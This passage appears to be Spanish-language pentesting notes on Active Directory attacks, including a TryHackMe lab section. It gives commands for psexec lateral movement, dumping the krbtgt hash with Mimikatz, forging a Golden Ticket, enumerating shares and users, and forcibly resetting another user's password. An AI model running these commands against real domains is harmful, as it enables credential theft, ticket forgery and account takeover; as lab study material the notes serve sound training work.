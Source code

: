 Ejemplo con `impacket-psexec`:

```bash
impacket-psexec enterprise.com/Administrator:'Password'@IP(AD)
```

> Este acceso es útil para moverse lateralmente dentro del dominio una vez generado un TGT válido.

## Mimikatz.exe

Con Mimikatz puedes extraer y manipular secretos del sistema, como el hash de la cuenta `krbtgt` necesario para generar Golden Tickets:

```bash
lsadump::lsa /inject /name:krbtgt
```

> Este comando requiere privilegios de SYSTEM. Una vez obtenido el hash, puede utilizarse para falsificar tickets TGT con herramientas como `ticketer.py` de Impacket.

Obtenemos el ID y NTLM y creamos el ticket.

```
kerberos::golden /domain:enterprise.com /sid:ID /rc4:NTLM /user:Administrator /ticket:ticket
```

## Active directory basics (THM)

Accedemos.

```
xfreerdp /u:Administrator /p:Password321 /v:10.10.224.147:3389
```

Enumerar recursos compartidos.

```
smbmap -H 10.10.224.147 -u 'Administrator' -p 'Password321' 
```

Enumerar recursos compartidos.

```
netexec smb 10.10.224.147 -u 'Administrator' -p 'Password321' --shares
```

Enumerar usuarios y servidores.

```
netexec smb 10.10.224.147 -u 'Administrator' -p 'Password321' --rid-brute
```

Cambiamos contraseña de sophie.

```
Set-ADAccountPassword sophie -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password')
```

También se puede cambiar de esta manera.

```
bloodyAD --host '10.10.224.147' -u 'philip' -p 'Claire2008' set password sophie 'Bea123'
```
